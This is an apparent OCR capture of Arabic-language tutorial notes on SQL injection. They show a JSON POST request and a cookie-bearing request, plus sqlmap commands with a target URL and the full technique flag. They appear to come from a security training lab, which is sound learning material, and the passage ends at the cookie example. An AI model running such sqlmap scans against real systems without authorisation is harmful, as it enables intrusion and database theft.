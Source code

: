 
# استغلال ثغرة SQL Injection في JSON Requests

### شكل الطلب (Request)
الطلب ممكن يكون فيه ثغرة لو الـ JSON Payload اللي في POST Request بيتم التعامل معاه بشكل غير آمن. المثال ده بيوضح شكل الطلب:

```
POST /case4.php HTTP/1.1
Host: 94.237.53.113:36168
Content-Length: 10
Content-Type: application/json

{"id":"1"}
```

### استغلال الثغرة باستخدام SQLMap
أداة SQLMap ممكن تساعدك في استغلال الثغرة عن طريق الأمر ده:

```bash
sqlmap -u "http://94.237.49.212:54833/case4.php" --data '{"id":"1"}'
```

### التكنيكات المدعومة في SQLMap
SQLMap بتدعم مجموعة تكنيكات لاكتشاف واستغلال الثغرات، زي:
- **B**: Boolean-based blind
- **E**: Error-based
- **U**: Union query-based
- **S**: Stacked queries
- **T**: Time-based blind
- **Q**: Inline queries

لو عايز تستخدم كل التكنيكات مع بعض، شغل الأمر ده:

```
--technique=BEUSTQ
```

### ملاحظة
استخدام كل التكنيكات ممكن ياخد وقت طويل (من ساعة لساعتين)، حسب سرعة السيرفر وتعقيد الثغرة.

---

# استغلال ثغرة SQL Injection في Cookies

#### شكل الطلب (Request)
ممكن يكون فيه ثغرة لو الـ Cookie بتتعامل مع بيانات المستخدم بشكل غير آمن. المثال ده بيوضح شكل الطلب:

```
POST / HTTP/1.1
Cookie: session=xyzojidaoif; id=1; csrf-token=fodajifodjaofjadoifjd03909
Host: hossamshady.me

dofjaiodf=sdofija
```
